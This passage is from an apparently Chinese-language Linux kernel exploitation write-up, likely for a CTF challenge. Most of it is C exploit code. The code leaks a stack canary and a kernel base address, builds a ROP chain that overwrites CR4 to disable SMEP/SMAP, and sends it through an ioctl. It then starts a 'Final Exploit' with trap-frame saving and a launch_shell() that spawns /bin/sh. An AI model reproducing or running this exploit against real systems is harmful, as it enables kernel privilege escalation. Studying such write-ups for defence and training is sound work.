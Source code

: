 ```

    uint64_t Canary = u64(&amp;leak_value[40 * 8]);
    printf("nCanary: %pn",Canary);
    uint64_t Rand_addr = u64(&amp;leak_value[42 * 8]);
    printf("nRand address: %pn",Rand_addr);

    for(int i = 0 ; i &lt; 40 ; i++ )
        Send_value[i] = 0;
    Send_value[40] = Canary;
    Send_value[41] = 0;
    Send_value[42] = Rand_addr + 0xffffffff8109054d - 0xffffffff81219218; 
    Send_value[43] = 0x6e0; 
    Send_value[44] = Rand_addr + 0xffffffff81004d70 - 0xffffffff81219218; 
    Send_value[45] = 0;
    Send_value[46] = 0xDEADBEEF;

    ioctl(fd1, 0x30001, Send_value);
    return 0;
}
```

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-19-152027.png)

通过`CR4`寄存器的值确定，我们已经成功关闭了`SEMP`和`SEAP`保护。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

接下来我们只需要获取两个关键函数地址就可以get_shell了，但是注意，**我们还是需要先暂时关闭`kASLR`再从`/proc/kallsyms`读取到的函数地址才是正确的地址。**

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;

void launch_shell(){
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    asm(
        "mov %%cs,  %0n"
        "mov %%ss,  %1n"
        "mov %%rsp, %3n"
        "pushfqn"
        "popq %2" :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp) :
        :"memory"
    );
```